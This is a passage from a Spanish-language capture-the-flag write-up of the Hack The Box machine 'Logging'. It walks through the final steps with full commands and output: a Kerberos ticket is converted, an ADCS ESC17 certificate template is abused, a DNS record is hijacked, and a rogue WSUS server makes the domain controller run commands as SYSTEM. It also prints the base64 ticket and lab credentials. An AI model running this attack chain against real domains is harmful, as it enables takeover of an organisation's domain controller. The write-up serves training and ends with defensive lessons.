g3pz+rPsDaosSMJBLOty15WdTg/po5TZfNzjt+MVMTUyUTtcJBDF++jSW3FHUMDgJ5S3QFJHOA0EgdgiP7/5DAcDc+ii9NzHQX283+zeycGa7w4D4C/cVHWuvKCIgx2ERY5h0i6qF4hm2hVUmdw/FvgOS9HM+CzIJNdDqZpeoXL2/PxRibrA6ejtEOBQDzluMEtTZ1b7cDzpKXp8Eh/Ealw9LyCWq5gFz3/75i2xQIb7WC3zAAVuhvR40ZWOKMVLuIJbkVNba968tW6WIQutyoKeNX0HYLUwqfEP13TBH3WBIvGxKwYrTbD24YPstUTYb3ua48zjFlLkBG0ofWhnzStWapIxNZMup+sN2lyySEcT5n7TEYqwQheqOO8qAJwa3crXYa9bu316pycvdM6qtxZllGtBibUHkji52xFA9PO/x/nfxvrmqNwGro0urzz8dAv8WulKQ00XbBNiC4G/IHixZxLR2OtBXo4HpMIHmoAMCAQCigd4Egdt9gdgwgdWggdIwgc8wgcygKzApoAMCARKhIgQgof4TeijRXB+t+AVc58yFnDOhklS10UC1j9iwcPuB616hDRsLTE9HR0lORy5IVEKiGzAZoAMCAQGhEjAQGw5qYXlsZWUuY2xpZnRvbqMHAwUAYKEAAKURGA8yMDI2MDcyNDA0MjcyMlqmERgPMjAyNjA3MjQxNDI2MTVapxEYDzIwMjYwNzMxMDQyNjE1WqgNGwtMT0dHSU5HLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=
```

Copiamos el ticket en Base64, lo decodificamos y lo convertimos al formato `ccache` que utilizan herramientas de Linux como Impacket y Certipy:

```bash
echo "doIFyDCCBcSgAwIBBaEDAgEWooIEyjCCBMZhggTCMIIEvqADAgEFoQ0bC0xPR0dJTkcuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtMT0dHSU5HLkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRu7TvFjrD9tEkNTiAHIUBP9v1Ad869WBt++cKrnsQX6TT60M1j0cPV5ruzWZ2bAIyDT+uj1ySZ05SkOu1ShPc3iLEWdnvc+Jxvp+jBXCdWxS+s/+AwenhP915PttoacWkSSkWynhgTYgBR5IH8Eoee+IpkxwUed44hCCBjaxwNRHeYy3mqGk4EgBH0kZ+nuLIFwGq+yuI60jd5cyGWhS4TXBIEV/hZM9cQkyWaxUhyF7WfM/jSoeTbt6YP9xCcWhK6Jd4KFlt2FvlUJnzESV8smfPc8th53XxJKrzsx7ObG6+SOxahMkXvapaFsPhQLdm3v/vI+hsEYyaGPYnRNxSUvlnRw4Y9f+COtyPL9KmkiYWmtT8c0mlE3AYT7O6WfsqQakAlkm1/ctMBEajFQNV19MQt4ljHBGRT/udZNbrrBpUqsLDuqkyRIjqxXwBlJO6T0mZwt5tDdyDmSlns0OkV/gq9kKNiVGC84bhOfeCqFz4siK7/lht5hb8Lituocwl/lTELee48ojrJ/dQak5acJiHWHUGkII4FBKeLcThAuxqO9N1kdmEZdAtSziUB3NtVxyT+ltrS8qrqtX6Puh+sYx6QD3SsPyiV/LMb1EfPfG948qGaXkjxd3nlP9b5RF2YrFv1JWgx73Ji7MG/9Rc/6e25CFBRScwioioFQswrOcSItXVFi8MFz1XT5okNIe9fMMUSmqHLkqSTlYhTR9n643Qv02/KqO66OZW+vZtDGlDM2c2LGORfjH9+MF2chIEeFmqH+gHJAEnh9J/w3ZgBusQ3i5fMxm9Q1HpUGMhK2Le07hdjhSHz/+YhecYqq3IkOzEI7OwNBI5vl2IrYSu10iJhdjdHbgseyn/5Ap1KiMdd6yKVzdJnHmep9B6hDs4tfev1ZjbdGngA4I+DfCgpeWt6bU1VGMkSdgqOeW1UUEX4hBNB7zbEjQPZg35h9/ECd/AFQSuy29sGnp88vnUB25FRaXAqwDnktyu4wFQ80gaJRjajoMVfZHUoqJMei7MTtU8bVebg3pz+rPsDaosSMJBLOty15WdTg/po5TZfNzjt+MVMTUyUTtcJBDF++jSW3FHUMDgJ5S3QFJHOA0EgdgiP7/5DAcDc+ii9NzHQX283+zeycGa7w4D4C/cVHWuvKCIgx2ERY5h0i6qF4hm2hVUmdw/FvgOS9HM+CzIJNdDqZpeoXL2/PxRibrA6ejtEOBQDzluMEtTZ1b7cDzpKXp8Eh/Ealw9LyCWq5gFz3/75i2xQIb7WC3zAAVuhvR40ZWOKMVLuIJbkVNba968tW6WIQutyoKeNX0HYLUwqfEP13TBH3WBIvGxKwYrTbD24YPstUTYb3ua48zjFlLkBG0ofWhnzStWapIxNZMup+sN2lyySEcT5n7TEYqwQheqOO8qAJwa3crXYa9bu316pycvdM6qtxZllGtBibUHkji52xFA9PO/x/nfxvrmqNwGro0urzz8dAv8WulKQ00XbBNiC4G/IHixZxLR2OtBXo4HpMIHmoAMCAQCigd4Egdt9gdgwgdWggdIwgc8wgcygKzApoAMCARKhIgQgof4TeijRXB+t+AVc58yFnDOhklS10UC1j9iwcPuB616hDRsLTE9HR0lORy5IVEKiGzAZoAMCAQGhEjAQGw5qYXlsZWUuY2xpZnRvbqMHAwUAYKEAAKURGA8yMDI2MDcyNDA0MjcyMlqmERgPMjAyNjA3MjQxNDI2MTVapxEYDzIwMjYwNzMxMDQyNjE1WqgNGwtMT0dHSU5HLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=" | base64 -d > jaylee.clifton.kirbi
```
```bash
impacket-ticketConverter jaylee.clifton.kirbi jaylee.clifton.ccache
```
```text
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] converting kirbi to ccache...
[+] done
```
```bash
export KRB5CCNAME=jaylee.clifton.ccache
```

Con el `ccache` configurado, ejecutamos `certipy-ad find` para enumerar las plantillas de certificados y buscar vulnerabilidades:

```bash
certipy-ad find -u jaylee.clifton -k -dc-ip 10.129.245.130 -target DC01.logging.htb -vulnerable -stdout
```

**Hallazgo crítico:**
```text
Certificate Templates
  0
    Template Name                       : UpdateSrv
    Display Name                        : UpdateSrv
    Certificate Authorities             : logging-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-04-17T00:41:06+00:00
    Template Last Modified              : 2026-04-17T00:41:07+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LOGGING.HTB\IT
                                          LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : LOGGING.HTB\Administrator
        Full Control Principals         : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Owner Principals          : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Dacl Principals           : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Property Enroll           : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
    [+] User Enrollable Principals      : LOGGING.HTB\IT
    [!] Vulnerabilities
      ESC17                             : Enrollee supplies subject and template allows server authentication.
    [*] Remarks
      ESC17                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

Nuevamente, BloodHound nos confirma visualmente esta relación. La siguiente imagen muestra que `jaylee.clifton` es miembro del grupo `IT@logging.htb`, y este grupo tiene el permiso `Enroll` sobre la plantilla de certificado `UpdateSrv`:



**¿Qué es la vulnerabilidad ESC17 en ADCS y cómo se relaciona con WSUS?**
La vulnerabilidad ESC17 ocurre cuando una plantilla de certificado (en este caso `UpdateSrv`) permite al solicitante definir el *Subject Alternative Name* (SAN) (mediante la bandera `EnrolleeSuppliesSubject`) y, además, la plantilla está configurada para autenticación de servidor (`Server Authentication`).

La relación con el servidor WSUS es directa y es la clave de este ataque:
1. El protocolo WSUS se configura en los clientes mediante GPO para que descarguen actualizaciones desde una URL específica (ej. `https://wsus.logging.htb:8531`).
2. Al usar HTTPS (puerto 8531), el cliente (en este caso, el propio Controlador de Dominio) exige que el servidor WSUS presente un certificado TLS válido para establecer la conexión. Para que el cliente confíe en el certificado, este debe estar firmado por una CA de la empresa (ADCS) y el nombre del servidor (SAN) debe coincidir con `wsus.logging.htb`.
3. Al abusar de ESC17, un atacante (con credenciales de `jaylee.clifton` y permisos `Enroll` en `UpdateSrv`) puede solicitar un certificado a la CA empresarial inyectando en el campo SAN el nombre `wsus.logging.htb`.
4. El resultado es un certificado TLS perfectamente válido y firmado por la CA interna, que el atacante puede instalar en su propio servidor falso (Rogue WSUS). Cuando el DC intente conectarse a `wsus.logging.htb` (que previamente hemos secuestrado por DNS), el atacante presentará este certificado y el DC confiará ciegamente en él, estableciendo la conexión TLS y permitiendo al atacante servir actualizaciones maliciosas.

---

## Fase 7: Escalada a SYSTEM — DNS Hijacking + Rogue WSUS

Para explotar la cadena completa, primero necesitamos que el dominio resuelva `wsus.logging.htb` hacia nuestra máquina. Comprobamos con `bloodyAD` si tenemos permisos para crear registros DNS:

```bash
bloodyAD --host dc01.logging.htb -d logging.htb -k get writable
```
```text
distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=logging,DC=htb
permission: WRITE

distinguishedName: CN=jaylee.clifton,CN=Users,DC=logging,DC=htb
permission: WRITE

distinguishedName: DC=logging.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=logging,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.logging.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=logging,DC=htb
permission: CREATE_CHILD
```

¡Tenemos permisos `CREATE_CHILD` en las zonas DNS! Añadimos un registro DNS apuntando a nuestra IP (10.10.17.44):

```bash
bloodyAD --host dc01.logging.htb -d logging.htb -k add dnsRecord 'wsus' 10.10.17.44
```
```text
[+] wsus has been successfully added
```

Verificamos desde la víctima que el DNS se haya actualizado correctamente:

```powershell
c:\ProgramData>nslookup wsus.logging.htb
```
```text
Server:  localhost
Address:  127.0.0.1

Name:    wsus.logging.htb
Address:  10.10.17.44
```

Antes de montar el servidor WSUS falso, podemos verificar que el tráfico ya nos está llegando si ponemos un listener simple en el puerto 8531:

```bash
python3 -m http.server 8531
```
```text
Serving HTTP on 0.0.0.0 port 8531 (http://0.0.0.0:8531/) ...
10.129.245.130 - - [24/Jul/2026 00:37:38] code 400, message Bad request syntax ("\\x16\\x03\\x03\\x00Â\\x01\\x00\\x00¾\\x03\\x03jbì\\x12±\\x7f8Ï!z²8$q\\x84\\x03§s:M;¹§E¾*\\x0fÆ\\x0e±\\x8dµ\\x00\\x00*À,À+À0À/\\x00\\x9f\\x00\\x9eÀ$À#À(À'À")
```

Vemos intentos de conexión TLS (tráfico binario) cada 2 minutos, tal como indicaba el ticket de soporte. Ahora necesitamos el certificado ESC17 para que el servidor confíe en nuestra IP como si fuera el WSUS legítimo.

Solicitamos el certificado malicioso indicando el SAN `wsus.logging.htb`:

```bash
certipy-ad req -k -target DC01.logging.htb -ca logging-DC01-CA -template UpdateSrv -dns wsus.logging.htb
```
```text
[*] Requesting certificate via RPC
[*] Request ID is 14
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'wsus.logging.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'wsus.pfx'
[*] Wrote certificate and private key to 'wsus.pfx'
```

Convertimos el certificado PFX a formato PEM, que es el formato que requiere la herramienta de ataque WSUS:

```bash
openssl pkcs12 -in wsus.pfx -nodes -passin pass: -out wsus.pem
```

**Ataque Rogue WSUS:**
Utilizamos la herramienta [wsuks](https://github.com/NeffIsBack/wsuks) para levantar un servidor WSUS falso. Como los clientes WSUS solo instalan actualizaciones firmadas digitalmente por Microsoft, `wsuks` utiliza un bypass muy ingenioso: sirve el binario legítimo `PsExec64.exe` de Sysinternals como si fuera una actualización de seguridad, pero le inyecta argumentos para ejecutar comandos personalizados en el momento de la "instalación" (el cual se ejecuta como SYSTEM).

Ejecutamos `wsuks` para añadir a nuestro usuario inicial (`wallace.everette`) al grupo de Administradores Locales del DC:

```bash
sudo wsuks -t DC01.logging.htb --WSUS-Server wsus.logging.htb --tls-cert wsus.pem -I tun0 --serve-only -c '/accepteula /s cmd /k "net localgroup administrators /add wallace.everette"'
```
```text
    __          __ _____  _    _  _  __  _____
    \ \        / // ____|| |  | || |/ / / ____|
     \ \  /\  / /| (___  | |  | || ' / | (___
      \ \/  \/ /  \___ \ | |  | ||  <   \___ \
       \  /\  /   ____) || |__| || . \  ____) |
        \/  \/   |_____/  \____/ |_|\_\|_____/

     Pentesting Tool for the WSUS MITM Attack
               Made by NeffIsBack
                 version: 1.2.1

[+] Command to execute:
PsExec64.exe /accepteula /s cmd /k "net localgroup administrators /add wallace.everette"
[*] ===== Starting Web Server =====
[*] Using TLS certificate 'wsus.pem' for HTTPS WSUS Server
[*] Starting WSUS Server on 10.10.17.44:8531...
[*] Serving executable as KB: 1221188
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetConfig"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/SyncUpdates"
[+] Received GET request: /7f496a0f-7546-4b94-9f22-85f0a205e6b6/PsExec64.exe
[+] GET request for exe: /7f496a0f-7546-4b94-9f22-85f0a205e6b6/PsExec64.exe
```

El DC descarga y ejecuta la falsa actualización. Verificamos que `wallace.everette` ahora es administrador local (Pwn3d!):

```bash
nxc smb logging.htb -u wallace.everette -p Welcome2026@
```
```text
SMB         10.129.245.130  445    DC01             [+] logging.htb\wallace.everette:Welcome2026@ (Pwn3d!)
```

Nos conectamos por WinRM y obtenemos control total del Controlador de Dominio:

```bash
evil-winrm-py -i logging.htb -u wallace.everette -p Welcome2026@
```
```text
[*] Connecting to 'logging.htb:5985' as 'wallace.everette'
evil-winrm-py PS C:\Users\wallace.eve
```

La flag `root.txt` se encuentra, curiosamente, en el escritorio del usuario `toby.brynleigh`:

```powershell
evil-winrm-py PS C:\Users> cd toby.brynleigh\desktop
evil-winrm-py PS C:\Users\toby.brynleigh\desktop> type root.txt
752b3e1f6229311277213022328630c7
```

---

## Conclusión

Logging es una máquina excepcional que encadena múltiples vectores avanzados en un entorno Active Directory:
1. Enumeración SMB y lectura de logs en texto plano para obtener credenciales de servicio.
2. Sincronización de tiempo (NTP) esencial para entender y bypassear restricciones de Kerberos.
3. Abuso de permisos (`GenericWrite`) mediante Shadow Credentials (PKINIT) para comprometer la cuenta `msa_health$`.
4. Análisis estático de binarios .NET y explotación de DLL Hijacking mediante tareas programadas.
5. Enumeración de ADCS y explotación de ESC17 para emitir un certificado TLS de servidor válido.
6. DNS Hijacking y despliegue de un servidor WSUS rogue para forzar la ejecución de comandos como SYSTEM en el DC.

## Lecciones aprendidas
* **Los archivos de log no deben contener información sensible:** El archivo `IdentitySync_Trace` exponía credenciales en texto plano. Las aplicaciones nunca deben volcar credenciales en sus trazas de log, incluso si son logs internos.
* **Kerberos requiere sincronización de tiempo estricta:** Entender cómo funciona el protocolo Kerberos y su dependencia de los timestamps es vital. Un simple desfase horario puede impedir la explotación, y los atacantes pueden abusar de la sincronización NTP para alinear sus relojes con el del dominio.
* **Permisos excesivos en directorios de aplicaciones:** El directorio `C:\ProgramData\UpdateMonitor\` permitía escritura a usuarios estándar. Combinado con un binario que cargaba DLLs sin verificar la integridad, resultó en una escalada de privilegios directa.
* **Las plantillas de ADCS deben seguir el principio de mínimo privilegio:** La plantilla `UpdateSrv` permitía a los usuarios definir el Subject Alternative Name (SAN) y era utilizada para Server Authentication. Esto habilitó el ataque ESC17, permitiendo la suplantación de identidad del servidor WSUS.
* **WSUS es un vector de ataque crítico si no se asegura el canal:** Si los servidores WSUS se configuran sobre HTTP/S sin asegurar adecuadamente la integridad de las actualizaciones y confiar en certificados de la CA interna sin restricciones, un atacante con capacidad de suplantación (MITM) puede tomar control total de los clientes que consumen dichas actualizaciones, incluido el propio Controlador de Dominio.
